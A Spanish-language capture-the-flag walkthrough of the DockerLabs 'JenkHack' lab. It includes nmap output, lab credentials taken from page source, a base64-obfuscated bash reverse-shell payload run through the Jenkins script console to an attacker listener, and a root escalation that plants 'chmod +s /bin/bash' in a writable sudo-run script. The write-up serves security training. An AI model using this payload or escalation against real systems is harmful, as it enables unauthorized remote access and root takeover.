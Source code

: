#MAQUINA #DOCKERLABS #FACIL 
#JENKINS
<hr>
# RECONOCIMIENTO

Vamos a resolver **JenkHack** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 16:12 CET
Initiating ARP Ping Scan at 16:12
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 16:12, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:12
Scanning 172.17.0.2 [65535 ports]
Discovered open port 8080/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 443/tcp on 172.17.0.2
Completed SYN Stealth Scan at 16:12, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-02 16:12:55 CET for 0s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack ttl 64
443/tcp  open  https      syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80, 443 y 8080 abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80,443,8080 172.17.0.2                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 16:13 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000018s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Hacker Nexus - jenkhack.hl
443/tcp  open  ssl/http Jetty 10.0.13
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Not valid before: 2024-09-01T12:00:45
|_Not valid after:  2025-09-01T12:00:45
|_ssl-date: TLS randomness does not represent time
| http-robots.txt: 1 disallowed entry 
|_/
8080/tcp open  http     Jetty 10.0.13
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.13)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 16:15 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
| http-enum: 
|_  /robots.txt: Robots file
8080/tcp open  http-proxy
| http-enum: 
|_  /robots.txt: Robots file
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.27 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Varios **robots.txt** .
## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos que al hacer CTRL + U :

**Usuario -> jenkins-admin**
**Contraseña -> cassandra**

Nos deja entrar en el jenkins del puerto 8080.

# EXPLOTACION

Estando dentro del jenkins, iremos a `/script`, esto nos llevará a una script console que nos permitirá ejecutar comandos. Para enviarnos una reverse shell, debemos ejecutar esto:

```bash
def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()
```

Esto nos enviará una reverse shell por el puerto 443, por lo que antes de ejecutarla escucharemos en ese puerto:

```bash
sudo nc -nlvp 443
```

# ESCALADA PRIVILEGIOS

Vemos una nota en /var/www/jenkhack:
   ```bash
jenkins@7626c23c43c0:/var/www/jenkhack$ cat note.txt 

jenkhack:C1V9uBl8!'Ci*`uDfP


```
**Usuario -> jenkhack**
**Contraseña -> jenkinselmejor** -> era base85

YA ESTAMOS COMO JENKHACK.

Vemos si el usuario tiene permisos SUDO:
   ```bash
jenkhack@7626c23c43c0:/opt$ sudo -l
Matching Defaults entries for jenkhack on 7626c23c43c0:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 7626c23c43c0:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash


```

Vemos que al ejecutar esa bash, se esta ejecutando un script **bash.sh en /opt**, la cosa es que el directorio es nuestro, entonces eliminamos el script y creamos otro con permisos 777 para que luego root pueda ejecutarlo:

   ```bash
jenkhack@7626c23c43c0:/opt$ ls -la
total 12
drwxrwxr-x 1 root     jenkhack 4096 Dec  3 12:31 .
drwxr-xr-x 1 root     root     4096 Dec  3 11:02 ..
-rwxrwxrwx 1 jenkhack jenkhack   54 Dec  3 12:31 bash.sh
jenkhack@7626c23c43c0:/opt$ cat bash.sh 
#!/bin/bash

# This script in bash
chmod +s /bin/bash
jenkhack@7626c23c43c0:/opt$ /bin/bash -p
bash-5.2# whoami
root

```

**YA ESTAMOS COMO ROOT.**
